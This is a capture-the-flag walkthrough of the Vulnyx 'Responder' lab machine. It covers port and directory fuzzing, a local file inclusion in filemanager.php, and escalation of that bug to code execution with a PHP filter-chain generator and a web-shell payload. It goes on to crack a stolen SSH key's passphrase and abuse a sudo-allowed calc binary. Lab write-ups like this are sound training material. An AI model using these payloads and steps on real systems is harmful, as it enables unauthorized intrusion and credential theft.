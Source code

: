 ## First Enumeration with nmap

```shell
# Nmap 7.94SVN scan initiated Sun Apr 14 01:37:38 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 22,80 -Pn 172.16.246.130
Nmap scan report for 172.16.246.130
Host is up (0.00021s latency).

PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 14 01:37:46 2024 -- 1 IP address (1 host up) scanned in 8.09 seconds
```
we have only one port open. 


## Enumerating the web app 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/da0a7624-0fb4-4b77-b379-ac112d683e43)

opening the ip on a browser, we got a weird info sayin `your ansswer is your answer`.

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnyx/Responder]
└─$ ffuf -u 'http://172.16.246.130/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -ic -e .php,.bak,.txt,.sql,.env,.sh,.phtml,.zip

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.246.130/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 :: Extensions       : .php .bak .txt .sql .env .sh .phtml .zip 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 31, Words: 6, Lines: 2, Duration: 2ms]
.php                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 201ms]
.phtml                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 206ms]
                        [Status: 200, Size: 31, Words: 6, Lines: 2, Duration: 5ms]
.php                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 5ms]
.phtml                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 5ms]
filemanager.php         [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 54ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 7ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

fuzzing for hidden dirs , we got a `filemanager.php`. Opening it on a browser, got redirected to the home page. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnyx/Responder]
└─$ ffuf -ic -u "http://responder/filemanager.php?FUZZ=/etc/hosts" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://responder/filemanager.php?FUZZ=/etc/hosts
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

random                  [Status: 302, Size: 183, Words: 19, Lines: 8, Duration: 9ms]
:: Progress: [87651/87651] :: Job [1/1] :: 2679 req/sec :: Duration: [0:00:32] :: Errors: 0 ::
```
the param `filemanager.php` looks like a potential `LFI` endpoint. so fuzzing, we got the parameter. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/26ab9065-7b65-44dd-a010-105d3bbd3895)

using burpsuite to intercept request, we can see there's an LFI vulnerability present let's exploit the LFI to RCE

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d4838b94-e6d8-460a-94ce-47112194ed6e)

There's a tool i use in exploiting LFI, it's a php chain generator to trigger RCE. [link](https://github.com/synacktiv/php_filter_chain_generator).

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0161d13c-5b00-41c0-8f95-663ed966a79e)

try to trigger a phpinfo. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/71e450bf-74f2-4832-b311-a404f2e123c2)

we trigger it success, let's try out RCE.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/10f656eb-a20f-4205-9be9-9ced4993314a)

```shell
 python3 php_filter_chain_generator.py --chain '<?php system($_GET['cmd']); ?>'
```
using the command sytanx to create an RCE payload 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7775fb90-0def-42e5-96bc-88ed846850bc)

we trigger RCE!!!, let's spawn a reverse shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/de43109a-c82f-4eb2-a585-55822dd9cac8)

we got a reverse shell!!!


## Privilege Escalation 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cf628938-36d2-4dca-ba70-64ff480584cf)

the web root dir, `filemanager.php` contains id_rsa key. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e660318a-840f-4871-b307-58f192422b02)

using `ssh2john` to cinvert to hash and crack it using hhashcat, we got the password `elliott`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ade722fa-495d-435f-9719-6d7bf5faa704)

login using the key and the passphrase of the id_rsa key.

```shell
elliot@responder:~$ sudo -l
Matching Defaults entries for elliot on responder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User elliot may run the following commands on responder:
    (rohit) NOPASSWD: /usr/bin/calc
elliot@responder:~$ 
```
checking sudo permissions, we can see we can run `calc` as user rohit without password. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/25ebc95d-a59a-401d-b38c-2a86106e20d3)

Abusing the binary `calc` gave us shell as user `rohit`.

